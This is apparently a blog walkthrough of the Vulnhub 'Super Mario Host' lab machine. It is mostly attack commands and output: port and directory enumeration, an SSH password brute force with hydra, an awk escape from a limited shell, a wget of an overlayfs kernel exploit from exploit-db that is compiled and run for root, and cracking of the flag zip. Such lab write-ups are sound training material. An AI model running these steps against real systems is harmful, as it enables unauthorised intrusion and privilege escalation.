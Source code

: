 ```yaml
---
title: Vulnhub - Super Mario Host
description: My writeup on Super Mario Host box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://static.posters.cz/image/750/%CE%91%CF%86%CE%AF%CF%83%CE%B5%CF%82/super-mario-characters-i22822.jpg)

Hi all, Let's pwn it!

You can find the machine there > [Super Mario Host](https://www.vulnhub.com/entry/super-mario-host-101,186/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.6
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 00:44 EEST
Nmap scan report for mario.supermariohost.local (192.168.1.6)
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1c:97:c0:06:3b:cb:4f:6f:0f:65:8d:37:82:c4:23:59 (DSA)
|   2048 45:2d:fe:04:bb:98:ed:00:d7:7b:36:da:8f:cf:44:1c (RSA)
|   256 09:5c:25:9d:5c:54:ae:8d:90:e3:44:9b:5e:a1:4d:e0 (ECDSA)
|_  256 c9:d5:6a:32:53:ab:8a:43:74:4b:85:fb:a0:ba:40:52 (ED25519)
8180/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Mario
MAC Address: 00:0C:29:DF:8C:2E (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we visit the site, we get the default nginx page :

![](https://i.imgur.com/OW6e7me.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster1.txt
/vhosts (Status: 200)
/server-status (Status: 403)
```

`/vhosts` has a virtual host file :

```
<VirtualHost *:80>

	ServerName mario.supermariohost.local
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/supermariohost
	DirectoryIndex mario.php

	ErrorLog ${APACHE_LOG_DIR}/supermariohost_error.log
	CustomLog ${APACHE_LOG_DIR}/supermariohost_access.log combined
 
</VirtualHost>
```

`ServerName mario.supermariohost.local` is the domain, let's add it at `/etc/hosts`

```
$ cat /etc/hosts
192.168.1.6     mario.supermariohost.local
```

Perfect, now if we browser the website with the domain name we can see a different page : 

![](https://i.imgur.com/GuqIVTU.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://mario.supermariohost.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt -o gobuster2.txt
/mario.php (Status: 200)
/command.php (Status: 200)
/luigi.php (Status: 200
```

I did some enumeration on them & the only things i found useful are the usernames `mario` & `luigi` we can do SSH brute force with them.

We should craft first a wordlist using `john`, i'll use the `Wordlist` rule on the 2 usernames.

## SSH brute force - Shell as luigi - Bypassing limited shell

```
$ touch usernames.txt
$ printf "mario\nluigi" > usernames.txt 
$ john -wordlist:usernames.txt -rules:Wordlist -stdout > wordlist.txt
$ hydra -L usernames.txt -P wordlist.txt $ip ssh

[DATA] attacking ssh://192.168.1.6:22/
[STATUS] 97.00 tries/min, 97 tries in 00:01h, 114 to do in 00:02h, 16 active
[22][ssh] host: 192.168.1.6   login: luigi   password: luigi1
```
`
Let's login in!

```
$ ssh luigi@$ip
luigi@192.168.1.6's password: 
You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands
luigi:~$ 
```

We're in a limited shell :

```
luigi:~$ echo $SHELL
*** forbidden path: /usr/bin/lshell
``` 

Let's check what command we can run :

```
luigi:~$ ?
awk  cat  cd  clear  echo  exit  help  history  ll  lpath  ls  lsudo  vim
```

We can exploit `awk` and open a normal `bash/sh` shell.

```
luigi:~$ awk 'BEGIN {system("/bin/bash")}'
luigi@supermariohost:~$ whoami
luigi
```

## Kernel privilege escalation

After lot of enumeration, i found nothing. I usually avoid to exploit old kernel versions, but on this box it's the only way to gain a root shell. So let's check kernel version :

```
luigi@supermariohost:~$ uname -a
Linux supermariohost 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
luigi@supermariohost:~$ uname -r
3.13.0-32-generic
```

Because it's an old box, we can see uses a really old kernel. Let's search for possible exploits with searchsploit.

```
$ searchsploit 3.13.0
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                              | linux/local/37292.c
```

This seems perfect, let's download it on target box & compile it.

```
luigi@supermariohost:/tmp$ wget -q https://www.exploit-db.com/download/37292 -O root.c
luigi@supermariohost:/tmp$ gcc root.c -o root
luigi@supermariohost:/tmp$ chmod +x root; ./root
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),112(lshell),1001(luigi)
```

## Cracking .zip & grab the flag

Now the challenge isnt over, we can see under `/root` directory a `.zip` :

```
# ls
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  Videos  flag.zip
```

Probably we have to crack it & grab the flag, let's move it to `/var/www/html` so we can download it.

```
# mv flag.zip /var/www/html
```

In our box now :

```
$ wget -q $ip:8180/flag.zip
$ file flag.zip 
flag.zip: Zip archive data, at least v2.0 to extract
$ unzip flag.zip 
Archive:  flag.zip
```

We have to crack it, i'll use `fcrackzip` :

```
$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt flag.zip 


PASSWORD FOUND!!!!: pw == ilovepeach
$ unzip -P ilovepeach flag.zip 
Archive:  flag.zip
  inflating: flag.txt                
$ cat flag.txt 
Well done :D If you reached this it means you got root, congratulations.
Now, there are multiple ways to hack this machine. The goal is to get all the passwords of all the users in this machine. If you did it, then congratulations, I hope you had fun :D

Keep in touch on twitter through @mr_h4sh

Congratulations again!
								
mr_h4sh
```

awesome box! brings back lot of memories.

